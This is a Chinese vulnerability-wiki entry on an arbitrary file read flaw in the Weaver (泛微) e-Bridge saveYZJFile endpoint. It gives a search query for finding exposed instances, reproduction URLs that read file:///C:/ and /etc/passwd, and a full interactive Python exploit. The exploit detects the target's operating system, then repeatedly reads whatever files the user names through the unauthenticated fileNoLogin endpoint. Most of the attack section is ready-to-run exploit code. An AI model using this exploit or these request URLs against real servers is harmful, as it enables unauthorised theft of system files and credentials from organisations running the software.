





# 泛微OA E-Bridge saveYZJFile 任意文件读取漏洞

## 漏洞描述

泛微云桥（e-Bridge）是上海泛微公司在”互联网+”的背景下研发的一款用于桥接互联网开放资源与企业信息化系统的系统集成中间件。泛微云桥存在任意文件读取漏洞，攻击者成功利用该漏洞，可实现任意文件读取，获取敏感信息。

## 漏洞影响

```
泛微云桥 e-Bridge 2018-2019 多个版本
```

## 网络测绘

```
title="泛微云桥e-Bridge"
```

## 漏洞复现

分为两种，分别为 Windows 和 Linux

### Windows

访问 [**http://xxx.xxx.xxx.xxx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt**](http://xxx.xxx.xxx.xxx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt)



成功返回 **id值**,说明含有此漏洞

调用查看文件接口访问 **http://xxx.xxx.xxx.xxx/file/fileNoLogin/id值**



### Linux

访问 [**http://xxx.xxx.xxx.xxx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt**](http://xxx.xxx.xxx.xxx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt)



成功返回 **id值**,说明含有此漏洞

调用查看文件接口访问 **http://xxx.xxx.xxx.xxx/file/fileNoLogin/id值**



## 漏洞POC

注意读取Linux系统文件时，需要完整路径

例如读取根目录下的 1.txt

应为 /1.txt 而不是 1.txt

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                         \033[0m')
    print('+  \033[34mVersion: 泛微云桥 e-Bridge                                          \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

# 判断操作系统 or 判断漏洞是否可利用
def POC_1(target_url):
    vuln_url_1 = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt"
    vuln_url_2 = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt"
    vuln_url_3 = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///&fileExt=txt"


    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        response_1 = requests.get(url=vuln_url_1, headers=headers, verify=False, timeout=10)
        response_2 = requests.get(url=vuln_url_2, headers=headers, verify=False, timeout=10)
        response_3 = requests.get(url=vuln_url_3, headers=headers, verify=False, timeout=10)
        if "无法验证您的身份" in response_1.text and "无法验证您的身份" in response_2.text:
            print("\033[31m[x] 漏洞已修复，不存在漏洞 \033[0m")
            sys.exit(0)
        else:
            if "No such file or directory" in response_1.text:
                print("\033[32m[o] 目标为 Linux 系统\033[0m")
                id = re.findall(r'"id":"(.*?)"', response_3.text)[0]
                print("\033[32m[o] 成功获取id：{}\033[0m".format(id))
                return id,"linux"
            elif "系统找不到指定的路径" in response_2.text:
                print("\033[32m[o] 目标为 Windows 系统\033[0m")
                id = re.findall(r'"id":"(.*?)"', response_1.text)[0]
                print("\033[32m[o] 成功获取id：{}\033[0m".format(id))
                return id,"windows"

            else:
                print("\033[31m[x] 无法获取目标系统\033[0m")
                sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

# 验证漏洞
def POC_2(target_url, id):
    file_url = target_url + "/file/fileNoLogin/{}".format(id)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        response = requests.get(url=file_url, headers=headers, verify=False, timeout=10)
        response.encoding = 'GBK'
        print("\033[32m[o] 成功读取：\n\033[0m{}".format(response.text))
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

# windows 文件读取
def POC_3(target_url, File):
    file_url = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/{}&fileExt=txt".format(File)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        response = requests.get(url=file_url, headers=headers, verify=False, timeout=10)
        id = re.findall(r'"id":"(.*?)"', response.text)[0]
        print("\033[32m[o] 成功获取id：{}\033[0m".format(id))
        POC_2(target_url, id)
    except :
        print("\033[31m[x] 请求失败，无法读取文件 \033[0m)")

# linux读取文件
def POC_4(target_url, File):
    file_url = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file://{}&fileExt=txt".format(File)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        response = requests.get(url=file_url, headers=headers, verify=False, timeout=10)
        id = re.findall(r'"id":"(.*?)"', response.text)[0]
        print("\033[32m[o] 成功获取id：{}\033[0m".format(id))
        POC_2(target_url, id)
    except:
        print("\033[31m[x] 请求失败，无法读取文件 \033[0m)")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    id,system = POC_1(target_url)
    POC_2(target_url, id)
    while True:
        if system == "windows":
            File = input("\033[35mFile >>> \033[0m")
            if File == "exit":
                sys.exit(0)
            else:
                POC_3(target_url, File)
        if system == "linux":
            File = input("\033[35mFile >>> \033[0m")
            if File == "exit":
                sys.exit(0)
            else:
                POC_4(target_url, File)
```

